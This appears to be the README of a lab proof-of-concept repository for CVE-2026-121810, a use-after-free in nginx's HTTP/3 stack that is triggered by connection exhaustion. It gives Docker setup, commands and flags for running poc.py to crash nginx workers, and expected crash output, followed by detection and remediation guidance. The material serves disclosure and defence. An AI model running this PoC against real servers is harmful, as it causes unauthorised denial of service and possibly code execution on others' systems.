

<div align="center">

# CVE-2026-121810

### nginx — HTTP/3 Use-After-Free Under Connection Exhaustion


</div>

---

## Overview

A use-after-free in nginx's HTTP/3 (QUIC) stack is triggered when `worker_connections` is exhausted and nginx starts closing connections to reclaim slots. QUIC stream state is released while still in use by an in-flight handler, causing a worker crash. Remote code execution is possible with ASLR defeated.

| Field | Value |
|---|---|
| **CVE** | CVE-2026-121810 |
| **CVSS 3.1** | `7.5 High` — `AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| **CWE** | CWE-416 (Use After Free) |
| **Affected** | nginx 1.25.0 – 1.31.8 |
| **Fixed** | nginx 1.30.7 / 1.31.9 |
| **Advisory** | https://my.f5.com/manage/s/article/K000163927 |
| **Auth Required** | None |
| **Disclosed** | 2026-11-18 |

---

## Vulnerability Details

When `worker_connections` slots are fully occupied under HTTP/3 load, nginx's connection exhaustion cleanup path frees QUIC stream state while upstream proxy callbacks may still hold raw pointers to it. The PoC opens waves of QUIC connections with live streams to a backend holding responses, then tears everything down to trigger the freed-state dereference.

**Preconditions:**
1. HTTP/3 enabled (`listen ... quic`, `http3 on`, TLSv1.3)
2. `worker_connections` small enough to be reachable (lab sets **24**)
3. Many concurrent QUIC connections with live streams

---

## Attack Flow



---

## PoC Usage

> **Warning:** Lab environment only. `worker_connections` is intentionally set to 24 to make exhaustion deterministic.

### Setup

```bash
pip install -r requirements.txt
docker compose up -d --build
```

### Trigger the UAF

```bash
python3 poc.py -c 150 -w 6
```

Expected output — vulnerable nginx:
```
[*] wave 1: 150 connections, 0 local errors
[*] wave 2: 150 connections, 3 local errors
[*] wave 3: 150 connections, 12 local errors
[+] worker unresponsive after wave 3
[!] VULNERABLE - worker died 1 time(s)
    docker compose logs nginx | grep -iE 'signal 11|segfault'
```

### Tuning flags

```bash
# More connections per wave
python3 poc.py -c 200 -w 8

# Fewer connections (slow host)
python3 poc.py -c 50 -w 10

# Verbose mode
python3 poc.py -c 150 -w 6 -v
```

### Available flags

| Flag | Description |
|---|---|
| `-c N` | Concurrent connections per wave (default: `150`) |
| `-w N` | Number of waves (default: `6`) |
| `-v` | Verbose output |
| `--host HOST` | nginx host (default: `127.0.0.1`) |
| `--port PORT` | QUIC port (default: `443`) |

### Monitor for crashes

```bash
docker compose logs nginx | grep -iE 'signal 11|segfault'
```

### Expected output — patched build

```bash
sed -i 's/nginx:1.31.8/nginx:1.31.9/' nginx/Dockerfile
docker compose build --no-cache nginx && docker compose up -d
python3 poc.py -c 150 -w 6
# No crash: worker remains responsive after all waves
```

---

## Detection

| Indicator | Notes |
|---|---|
| nginx worker crash signal 11 | `nginx error.log`: "worker process exited on signal 11" |
| High QUIC connection rate near `worker_connections` limit | Monitor nginx `active connections` metric |
| Worker restarts under sustained HTTP/3 load | Automated restarts suggest UAF being triggered repeatedly |

---

## Impact

Unauthenticated remote Denial of Service (worker crash). With ASLR disabled or bypassed, the heap layout created by connection exhaustion may allow remote code execution. The HTTP/3 sibling of CVE-2026-123633 (HTTP/2 UAF under same conditions).

---

## Remediation

Upgrade to **nginx 1.30.7** or **1.31.9**.

| Action | Detail |
|---|---|
| Upgrade nginx | 1.30.7 (stable) or 1.31.9 (mainline) |
| Increase `worker_connections` | Raise limit to make exhaustion harder to trigger at scale |
| Rate-limit QUIC connections | Limit per-IP connection rate at firewall |
| Monitor worker restarts | Alert on nginx workers exiting with signal 11 |

---

## References

- Advisory K000163927: https://my.f5.com/manage/s/article/K000163927
- nginx Security Advisories: https://nginx.org/en/security_advisories.html
- CVE Record: https://www.cve.org/CVERecord?id=CVE-2026-121810

---

> **Disclaimer:** For authorized security research and controlled lab use only. MIT License.